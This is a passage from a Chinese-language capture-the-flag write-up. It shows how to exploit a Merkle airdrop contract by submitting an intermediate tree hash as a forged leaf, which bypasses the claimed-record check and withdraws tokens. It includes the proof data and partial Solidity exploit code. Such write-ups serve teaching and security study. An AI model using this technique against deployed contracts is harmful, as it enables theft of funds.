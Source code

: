 我们有个发现：对于每一个拼接结果，（我们就拿第一个结果来看），我们左边32字节右边32字节分开来看，左边`0000000000000000000000000000000000000000000000000000000000000001`像是一个索引，用于确定这64个空投地址，而右边`00E21E550021Af51258060A0E18148e36607C9df00000009906894166afcc878`像是一个正常的哈希值。

我们知道，就是这个东西会被记录为已经领取空投，那么如果我们拼接的结果不是这64个空投地址的拼接结果，但也能通过merkle树检验呢？想法很棒！因为对于merkle树，即使不从叶子节点出来，从中间出发网上，只要路径哈希是对的，一样可以验证。那么我们可以从中间出发然后通过验证，获取得到空投，并且题目中的64个空投地址不会被记录，而余额会被消耗。

#### 3.2想法初探

带着这个想法，我们出发。想要从merkle树的中间开始验证，那么我们就要知道中间这个hash是多少。

并且通过题目，我们有一个限制条件如下：我们发空投的金额不得超过`75000 * 10 ** 18`个代币，换算成16进制就是`fe1c215e8f838e00000`，那么在拼接结果中，amount的部分至少要小于这个值，那么至少包含前面5个连续的0。举个例子：第一个的拼接结果`00000009906894166afcc878`，这个数值不得大于fe1c215e8f838e00000，那么至少包含前面5个连续的0。

```solidity
require(ERC20Like(token).transfer(account, amount), 'MerkleDistributor: Transfer failed.');
```

如果我们想要找到这么一个中间的哈希值，那么它一定也要满足这个条件，不然转账会报错！因此我们在tree.js文件中，`ctrl+F`搜索`00000`，还真的发现了这么一个中间值：

```
0xd48451c19959e2d9bd4e620fbe88aa5f6f7ea72a00000f40f0c122ae08d2207b
```

他是节点37的路径中的其中一个值。

```json
        "0x8a85e6D0d2d6b8cBCb27E724F14A97AeB7cC1f5e": {
            "index": 37,
            "amount": "0x5dacf28c4e17721edb",
            "proof": [
                "0xd48451c19959e2d9bd4e620fbe88aa5f6f7ea72a00000f40f0c122ae08d2207b",
                "0x8920c10a5317ecff2d0de2150d5d18f01cb53a377f4c29a9656785a22a680d1d",
                "0xc999b0a9763c737361256ccc81801b6f759e725e115e4a10aa07e63d27033fde",
                "0x842f0da95edb7b8dca299f71c33d4e4ecbb37c2301220f6e17eef76c5f386813",
                "0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c",
                "0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5"
            ]
        },
```

既然有中间的一个hash值满足这个条件，那么右边的32字节就是它了，然后我们找左边的32字节。我们分析可知，`0xd48451c19959e2d9bd4e620fbe88aa5f6f7ea72a00000f40f0c122ae08d2207b`是路径的第一个哈希，说明叶子节点拼接进行hash之后，就和它进行再次拼接hash，他是位于倒数第二层的。

这么一来，左值就是37叶子节点拼接hash的结果，构造成一个新的hash值作为左值。这样我们就满足了我们想要做到的：

- 左值作为索引不是64个节点的拼接结果之一，不会被记录到`isClaimed()`
- 右值满足`transfer()`的条件

那么我们如下这么构造，就可以从倒数第二层开始往上验证，然后取到一笔钱。

```solidity
        bytes32[] memory merkleProof1 = new bytes32[](5);
        merkleProof1[0] = bytes32(0x8920c10a5317ecff2d0de2150d5d18f01cb53a377f4c29a9656785a22a680d1d);
        merkleProof1[1] = bytes32(0xc999b0a9763c737361256ccc81801b6f759e725e115e4a10aa07e63d27033fde);
        merkleProof1[2] = bytes32(0x842f0da95edb7b8dca299f71c33d4e4ecbb37c2301220f6e17eef76c5f386813);
        merkleProof1[3] = bytes32(0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c);
        merkleProof1[4] = bytes32(0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5);
        merkleDistributor.claim(
                uint256(keccak256(abi.encodePacked(
                    uint256(37),
                    address(0x8a85e6D0d2d6b8cBCb27E724F14A97AeB7cC1f5e),
                    uint96(0x5dacf28c4e17721edb)
                ))),
                address(0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A), 
```